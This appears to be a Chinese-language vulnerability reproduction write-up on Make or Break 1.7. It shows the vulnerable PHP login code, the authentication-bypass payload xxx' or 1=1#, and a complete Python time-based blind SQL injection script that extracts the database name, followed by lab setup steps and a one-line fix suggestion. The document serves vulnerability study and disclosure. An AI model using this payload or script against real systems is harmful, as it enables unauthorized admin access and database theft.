

# 
Make Or Break 1.7 SQL Injection And Authentication Bypass
 #

## 1.&emsp;漏洞描述 ##

* 漏洞简述： 由于Friends in War Make or Break 1.7在处理用户输入的参数的时候没有施加有效的过滤防护措施，导致任意用户可以在不知道用户名密码的时候进入后台，并且可以脱裤。
* 影响版本： Friends in War Make or Break 1.7

## 2.&emsp;漏洞简介 ##

&emsp;&emsp;Make Or Break是一个图片的管理平台。

&emsp;&emsp;该漏洞主要的产生原因是参数过滤不严格导致的sql注入和后台任意账户登录漏洞。

## 3.&emsp;漏洞分析 ##

&emsp;&emsp;根据漏洞的位置我们可以看`ip:port/admin/login.php`文件的源码  
	

&emsp;&emsp;可见`POST`参数会传递给`include/checklogin.php`文件。我们再看看该文件的内容。  

	session_start(); // Start a new session
	require('../../config.php'); // Holds all of our database connection information
	
	mysql_connect("$host", "$username", "$password")or die("cannot connect to the database."); 
	mysql_select_db("$db_name")or die("cannot select the database.");
	
	$result = mysql_query("SELECT * FROM ".$prefix."settings WHERE id = 1");
	while($row = mysql_fetch_array($result)) {
		$pagename = $row['pagename'];
		$template = $row['template'];
	}
	
	// Get the data passed from the form
	$username = $_POST['username'];
	$password = $_POST['password'];
	
	// Do some basic sanitizing
	$username = stripslashes($username);
	$password = stripslashes($password);
	
	$password = str_replace("'", "''", $password);
	
	$sql = ("select * from ".$prefix."admin where username = '$username' and password = '$password'");
	$result = mysql_query($sql) or die ( mysql_error() );
	
	$count = 0;
	
	while ($line = mysql_fetch_assoc($result)) {
		 $count++;
	}
	
	if ($count == 1) {
		 $_SESSION['loggedIn'] = "true";
		 header("Location: ../index.php"); // This is wherever you want to redirect the user to
	} else {
		 $_SESSION['loggedIn'] = "false";
		 header("Location: ../login.php"); // Wherever you want the user to go when they fail the login
	}
	
	?>

首先我们输入的用户名和密码会传递给`$username`和`$password`变量，接着会对两个变量进行简单的过滤（去除斜杠，不重要因为利用的时候并没有用到斜杠），在下面就是：

	$password = str_replace("'", "''", $password);

将`$password`变量的单引号替换成2个单引号，但是并没有对`$username`变量进行单引号处理，从而导致sql注入的出现。再看看数据库连接语句。

	$sql = ("select * from ".$prefix."admin where username = '$username' and password = '$password'");

当我们构造如下语句的时候：  

	//$username = xxx' or 1=1#
	//$password = anything
	$sql = ("select * from ".$prefix."admin where username = 'xxx' or 1=1#' and password = 'anything'");  

由于#在sql语句里面是注释的意思，也就是说sql语句最终是：  

	select * from ".$prefix."admin where username = 'xxx' or 1=1#

因为这个语句的执行结果是正确的：  

在登录页面Username表单填入`xxx' or 1=1#`而Password表单任意填，即可登录后台：

既然存在注入点，那就可能拿到数据库的信息！这里我们尝试用盲注的方式拿到数据库的名称，脚本如下：  

	#!/bin/bash python
	#!coding=utf-8
	import requests
	
	#慢速就是代表正确
	#select * from mob_admin where username='admi' or if((ascii(mid(database(),1,1)) like 97),sleep(2),0);
	
	payloads = list('1234567890qwertyuiopasdfghjklzxcvbnm{}QWERTYUIOPASDFGHJKLZXCVBNM')
	url = 'ip:port/admin/include/checklogin.php'
	username = ''
	
	for i in xrange(1,39):
		for payload in payloads:
			poc = "adin\' or if((ascii(mid(database(),%s,1)) like %s),sleep(3),0)#" %(i, ord(payload))
			postpay = {'username':poc, 'password':'111', 'Submit':'Admin+Login'}
			try:
				r = requests.post(url, data=postpay, timeout=2)
			except Exception as e:
				username += payload
				print username
				break
				
	#print username;
	# print(u' '.join(r.text).encode('utf-8'))

执行效果：  

## 4.&emsp;靶场环境搭建 ##

### 4.1&emsp;环境源码下载 ###

下载相应版本[Make Or Break 1.7](http://software.friendsinwar.com/downloads.php?cat_id=2&file_id=9 "Make Or Break 1.7")  

### 4.2&emsp;安装和配置Make Or Break ###

* 在Linux下直接安装Apache+php5环境，然后将源码导入到/var/www/html文件夹下。
* 启动Apache服务，在浏览器直接访问服务器安装地址`ip:port/install/index.php`，进入安装页面。配置好Make Or Break需要的环境  

### 4.3&emsp;漏洞复现（SQLI） ###

1.访问Make Or Break后台页面`ip:port/admin/login.php`  

2.Username填入`xxx' or 1=1#`Password任意填。

3.运行poc验证漏洞存在。  

## 5.&emsp;修复意见 ##

&emsp;&emsp;添加过滤函数  
